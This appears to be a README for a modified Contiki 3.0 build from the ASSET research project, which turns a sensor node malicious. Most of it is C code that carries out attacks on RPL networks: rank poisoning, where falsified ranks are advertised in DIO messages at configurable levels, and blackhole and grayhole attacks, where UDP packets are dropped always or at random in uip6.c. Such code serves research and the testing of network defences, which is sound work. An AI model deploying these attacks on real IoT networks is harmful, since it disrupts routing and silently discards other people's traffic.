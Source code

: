 This modified contiki version is part of the [![ASSET controller](https://github.com/SWNRG/ASSET) project.

Other versions of contiki-mailicous code


Changes in this contiki 3.0 for the malicious node:
General rule, all changes have a comment starting with // George
(Dont confuse it with George Oikonomou...)

set MALICIOUS_LEVEL in project.conf (from 0-4).
By default it has the value 2 in rpl-icmp6.c

core/net/rpl/rpl-icmp6.c
l514: poisoning the advertised rank of the malicious node.
You can choose "how much" to poison it.

/* ******************* POISONING DIOs **************************** */
  /* George Poisoining the DIO sent to neighbors:
   * The rank of the malicious node is fakely advertised as lower.
   * it can be three different levels: light, adequate, severe.
   * In all cases, if the malicious is closer to the sink, the rank
   * will be slightly above the sink's rank (So RPL will root 
   * normally from nodes via the malicious to the sink.
   * Sink's rank is usually 128, PARENT_SWITCH_THRESHOLD is 96 or 160.
   * A node's rank should not be lesser than the sink, hence it should 
   * be more than 128. Choose wisely....
   */
   int fake_rank; 
   switch(MALICIOUS_LEVEL){
	  case 4:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 4*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 3:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 3*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 2:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 2*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break;
	  case 1:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD >
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break; 
	  default: // All other number
 	  printf("No MALICIOUS_LEVEL set, NORMAL dag->rank\n");
 	  fake_rank = dag->rank;
  }
  printf("PARENT_SWITCH_THRESHOLD:%d, dag->rank:%d, fake:%d\n",
  			PARENT_SWITCH_THRESHOLD, dag->rank,fake_rank);
  set16(buffer, pos, fake_rank);
  //set16(buffer, pos, dag->rank);
  
  
  
uip6.c
l155
/* George variable to be set at the app layer by a malicious node */
uint8_t intercept_on = 0;

l1261: blackhole and grayhole attacks.
Intercepting UDP messages and either never forward them (blackhole),
or randomly decide (50%) whether to send it or not (greyhole).
define variables in project.conf (of the malicious node contiki).

/* ********** George ************************************ */      
/* George While intercept_on == 1 the "goto send;" is not on.
 * if !goto send; packets are not forwarded any more. 
 * Traffic is therefor intercepted by a malicious node.
 * TODO: you want to do something with this traffic?
 */  		
		
		 if(intercept_on == 1){ 	 
#ifdef GREY_SINK_HOLE_ATTACK
			 int sendON=(int)random_rand()%2;
			 if(sendON == 0){
			 	  printf("DATA INTERCEPTED from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  		 }else{ // sendOn !=0	  		
				  printf("DATA LET GO from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  			  
	  			  UIP_STAT(++uip_stat.ip.forwarded);
				  goto send;
	  		 }			 
#else
		 	  printf("DATA from: ");
		 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
		 	  printf(" NEVER SENT to node: "); 
  			  printShortaddr(&UIP_IP_BUF->destipaddr);
  			  printf("\n");		 			 
#endif /* GREY_SINK_HOLE_ATTACK */	
 
	  	 }else{
	  
#if PRINT_ROUTE_ON  /* George Variable in project.conf */   
				printf("DATA UDP from: ");
				printShortaddr(&UIP_IP_BUF->srcipaddr);
				printf("	NORMALLY  pass to node: "); 
				printShortaddr(&UIP_IP_BUF->destipaddr);
				printf("\n");
#endif	
/* ****************************************************** */   



